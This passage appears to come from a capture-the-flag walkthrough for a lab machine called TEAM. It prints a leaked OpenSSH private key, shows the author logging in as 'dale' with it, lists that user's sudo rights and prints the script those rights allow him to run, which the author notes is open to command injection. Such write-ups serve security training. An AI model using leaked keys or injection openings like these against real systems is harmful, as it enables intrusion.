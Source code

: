 ```console
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
#7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v
#JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/
#FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l
#gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4
#xKivIVPBVL6MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsH
#ftzf8oLErg4ToSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijb
#esUW5UVqzUwbReU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHO
#eXC1jA4JuR2S/Ay47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85R
#N1ftjJc+sMAWkJfwH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4Rxg
#Q4MUvHDPxc2OKWaIIBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1Hyi
#U2lCuU7CZtIIjKLh90AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW
#/vS5rOqadSFUnoBrE+Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz
#82aDTaCV/RkdZ2YCb53IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAA
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----



```

Uncommented the id_rsa and tried to login as dale without password which was successful

## SSH
On logging in to SSH found that Dale can run a command as gyles 
```console
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
On  reading file we found that we can inject command to one of the inputs in date
```console
dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
```